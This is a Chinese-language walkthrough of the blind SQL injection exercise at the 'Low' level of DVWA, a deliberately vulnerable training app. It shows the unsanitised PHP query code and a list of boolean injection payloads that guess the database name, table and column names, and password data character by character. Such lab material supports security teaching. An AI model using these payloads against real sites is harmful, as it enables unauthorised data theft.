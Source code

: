 <br>

***

<br>

# SQL盲注

没有任何回显的SQL注入

## Low

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];
    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?> 
```

<img src="/images/ctf-web-dvwa/image-20221009205253312.png" alt="image-20221009205253312" style="zoom:67%;" />

输入一个id查询，只会告知输入的id存在或者不存在，而不会显示具体数据内容

**尝试进行盲注，如果显示`User ID exists in the database.`则说明语句里给出的命题是成立的**

```
猜库名长度
1' and length(database())=4 #
逐个字母猜库名
1' and substr(database(),1,1)='d
逐个字母猜所有表名
1' and substr((select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),1,1) = 'g
逐个字母猜列名：
1' and substr((select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'), 1, 1) = 'u
逐个字母猜特定列里的数据：
id=1' and substr((select group_concat(password) from users), 1, 1) = '5
```

